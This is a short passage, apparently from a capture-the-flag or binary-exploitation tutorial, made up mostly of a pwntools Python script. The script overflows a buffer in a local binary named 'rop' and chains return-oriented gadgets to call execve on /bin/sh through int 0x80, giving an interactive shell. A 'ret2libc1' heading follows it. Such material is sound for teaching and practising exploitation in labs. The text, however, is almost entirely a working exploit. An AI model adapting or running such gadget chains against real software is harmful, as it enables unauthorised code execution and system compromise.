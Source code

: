```python
from pwn import *


r = process('./rop')

r.recvuntil('plan to do?\n')

pop_eax = 0x080bb196 # pop eax ; ret
pop_edx_ecx_ebx = 0x0806eb90 # pop edx ; pop ecx ; pop ebx ; ret
int_0x80 = 0x08049421 # int 0x80
sh = 0x080be408 # /bin/sh

p = 'a'*(0x6c+0x4)
p += p32(pop_edx_ecx_ebx)
p += p32(0)
p += p32(0)
p += p32(sh)
p += p32(pop_eax)
p += p32(0xb)
p += p32(int_0x80)

r.sendline(p)
r.interactive()
```



### ret2libc1
